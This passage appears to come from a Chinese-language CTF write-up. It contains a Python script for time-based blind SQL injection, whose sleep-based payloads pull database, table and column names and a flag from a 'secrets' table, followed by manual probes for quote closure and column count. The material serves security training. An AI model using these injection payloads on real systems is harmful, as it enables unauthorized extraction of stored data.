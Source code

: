 ```sql
        # temp["student_name"] = f"Alice'and(if((ord(mid((select(group_concat(database()))),{i},1))>{mid}),sleep(2),1))#"
        # 表名
        # temp["student_name"] = f"Alice'and(if((((ord(mid((select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))),{i},1))))>{mid}),sleep(2),1))#"
        # 字段名
        # temp["student_name"] = f"Alice'and(if((((ord(mid((select(group_concat(column_name))from(information_schema.columns)where((table_name)like('secrets'))),{i},1))))>{mid}),sleep(2),1))#"
        # 内容
        temp["student_name"] = f"Alice'and(if(((((ord(mid((select(group_concat(secret_value))from(secrets)where((secret_value)like('flag%'))),{i},1))))>{mid})),sleep(5),1))#"
        try:
            print(low, high, mid, ":")
            r = requests.get(url, params=temp, timeout=1)
        except Exception as e:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    if mid == 32 or mid == 127:
        break
    result += chr(mid)
    print(result)

print("All:", result)
```

### sqlshell
先测闭合

```sql
Alice'
# 没回显
Alice"
# 有回显
ALice'#
# 有回显
# 综上，单引号闭合
```

测过滤，好像没过滤

测列数

```sql
Alice' order by 3#
# 有回显
Alice' order by 4#
# 没回显
# 综上，表格3列
```

测回显位
